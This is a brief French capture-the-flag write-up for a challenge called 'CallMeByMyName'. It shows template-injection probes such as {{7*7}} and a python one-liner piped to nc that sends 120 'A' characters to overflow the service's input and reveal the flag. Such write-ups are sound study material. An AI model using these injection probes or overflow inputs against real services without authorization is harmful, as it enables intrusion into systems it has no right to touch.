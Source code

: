 # WriteUp CallMeByMyName

se connecter: `nc 0xhorizon.eu 8888`
On nous demande notre nom pour ensuite afficher Hello prenom
Ex:
```shell
Hello ! What's your name ?
tyki6
Hello tyki6
```

## Testons des injections

Essayons de voir si il y a une template derrière.On va tenter de faire un payload qui contient une opération pour voir si on a non pas notre opération mais le résultat de celle-ci (ex: on envoie 7*7 cela nous donne 49)
Test:

```shell
Hello ! What's your name ?
{{7*7}}}
Hello {{7*7}}}
```
Nop!

Test:
```shell
Hello ! What's your name ?
{7*7}}
Hello {7*7}}
```
Toujours pas

Bon on va essayer autre chose.

## Segmentation fault

Par curiosité je voulais savoir ce que ça fesait si on injectait 1000 caractères.
Appuyer plein de fois sur A et Bingo on a le flag(un peu de chance sur celui-ci).

Pour la rapidité:  `python -c "print(120*'A')" | nc 0xhorizon.eu 8888`

```
python -c "print(120*'A')" | nc 0xhorizon.eu 8888
Hello ! What's your name ?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Good job here is your flag: horiz0nx{FLAG}
```
Pour les plus curieux c'est à partir de 120 caractères que le programme donne le flag.